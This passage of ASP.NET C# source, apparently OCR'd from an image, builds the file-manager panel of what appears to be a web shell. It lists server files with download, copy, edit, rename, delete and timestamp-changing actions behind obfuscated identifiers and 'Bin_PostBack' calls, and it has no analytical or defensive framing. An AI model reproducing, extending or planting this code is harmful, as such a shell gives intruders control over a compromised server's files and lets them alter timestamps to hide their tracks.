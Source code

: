 UGzP.Rows.Add(cKVA);
int aYRwo=0;
foreach(FileInfo Bin_Files in GQMM.GetFiles())
{
aYRwo++;
string gb=OKM();
TableRow tr=new TableRow();
TableCell tc=new TableCell();
tc.Width=Unit.Parse("2%");
tc.Text="&lt;input type=\"checkbox\" value=\"0\" name=\""+MVVJ(Bin_Files.Name)+"\"&gt;";
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=gb;
tr.Attributes["onmouseout"]="this.className='"+gb+"';";
tr.Cells.Add(tc);
TableCell filename=new TableCell();
if(Bin_Files.FullName.StartsWith(Request.PhysicalApplicationPath))
{
string url=Request.Url.ToString();
filename.Text="&lt;a href=\""+Bin_Files.FullName.Replace(Request.PhysicalApplicationPath,url.Substring(0,url.IndexOf('/',8)+1)).Replace("\\","/")+"\" target=\"_blank\"&gt;"+Bin_Files.Name+"&lt;/a&gt;";
}
else
{
filename.Text=Bin_Files.Name;
}
TableCell albt=new TableCell();
albt.Text=Bin_Files.LastWriteTimeUtc.ToString("yyyy-MM-dd hh:mm:ss");
TableCell YzK=new TableCell();
YzK.Text=mTG(Bin_Files.Length);
TableCell GLpi=new TableCell();
GLpi.Text="&lt;a href=\"#\" onclick=\"Bin_PostBack('ksGR','"+MVVJ(AXSbb.Value+Bin_Files.Name)+"')\"&gt;Down&lt;/a&gt; | &lt;a href='#' onclick=\"var filename=prompt('Please input the new path(full path):','"+AXSbb.Value.Replace(@"\",@"\\")+Bin_Files.Name.Replace("'","\\'")+"');if(filename){Bin_PostBack('Bin_CFile"+MVVJ(AXSbb.Value+Bin_Files.Name)+"',filename);} \"&gt;Copy&lt;/a&gt; | &lt;a href=\"#\" onclick=\"Bin_PostBack('Bin_Editfile','"+Bin_Files.Name+"')\"&gt;Edit&lt;/a&gt; | &lt;a href='#' onclick=\"var filename=prompt('Please input the new file name(full path):','"+AXSbb.Value.Replace(@"\",@"\\")+Bin_Files.Name.Replace("'","\\'")+"');if(filename){Bin_PostBack('Tlvz"+MVVJ(AXSbb.Value+Bin_Files.Name)+"',filename);} \"&gt;Rename&lt;/a&gt; | &lt;a href=\"#\" onclick=\"Bin_PostBack('cYAl','"+Bin_Files.Name+"')\"&gt;Time&lt;/a&gt; ";
tr.Cells.Add(filename);
tr.Cells.Add(albt);
tr.Cells.Add(YzK);
tr.Cells.Add(GLpi);
UGzP.Rows.Add(tr);
}
string lgb=OKM();
TableRow oWam=new TableRow();
oWam.CssClass=lgb;
for(int i=1;i&lt;4;i++)
{
TableCell lGV=new TableCell();
if(i==1)
{
lGV.Text="&lt;input name=\"chkall\" value=\"on\" type=\"checkbox\" onclick=\"var ck=document.getElementsByTagName('input');for(var i=0;i&lt;ck.length-1;i++){if(ck[i].type=='checkbox'&&ck[i].name!='chkall'){ck[i].checked=forms[0].chkall.checked;}}\"/&gt;";
}
if(i==2)
{
lGV.Text="&lt;a href=\"#\" Onclick=\"var d_file='';var ck=document.getElementsByTagName('input');for(var i=0;i&lt;ck.length-1;i++){if(ck[i].checked&&ck[i].name!='chkall'){d_file+=ck[i].name+',';}};if(d_file==null || d_file==''){ return;} else {if(confirm('Are you sure delete the files ?')){Bin_PostBack('SJv',d_file)};}\"&gt;Delete selected&lt;/a&gt;";
